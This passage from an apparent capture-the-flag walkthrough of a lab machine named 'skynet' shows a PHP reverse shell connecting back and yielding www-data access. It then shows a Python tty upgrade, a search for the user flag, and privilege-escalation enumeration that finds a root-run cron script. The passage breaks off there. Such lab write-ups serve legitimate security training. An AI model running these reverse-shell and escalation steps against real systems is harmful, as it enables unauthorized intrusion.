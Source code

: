 10.10.9.168 - - \[01/Mar/2024 13:09:52] "GET /php-reverse-shell.php HTTP/1.0" 200 -

* Reverse shell caught by listener.

Connection from 10.10.9.168 39380 received!

Linux skynet 4.8.0-58-generic #63\~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86\_64 x86\_64 x86\_64 GNU/Linux

07:09:51 up 4:47, 0 users, load average: 0.00, 0.00, 0.00

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

$ whoami

www-data

1. Upgrade to interactive tty shell.

python -c 'import pty;pty.spawn("/bin/bash")'

1. Find user flag.

find / -name user.txt 2>/dev/null

### **Privilege Escalation (ID: TA0004)** <a href="#iwsezoeicgmz" id="iwsezoeicgmz"></a>

* List all commands www-data user can run using sudo.

sudo -l

\[sudo] password for www-data:

* No delegated sudo privileges.
* Enumerate crontab.

cat /etc/crontab

\# m h dom mon dow user command

\*/1 \* \* \* \* root /home/milesdyson/backups/backup.sh

\[snip ...]

* "/home/milesdyson/backups/backup.sh" runs every minute as root.

ls -la /home/milesdyson/backups/

\[snip...]

drwxr-xr-x 2 root root 4096 Sep 17 2019 backups

\[snip ...]

ls -la /home/milesdyson/backups/

\[snip ...]

\-rwxr-xr-x 1 root root 74 Sep 17 2019 backup.sh
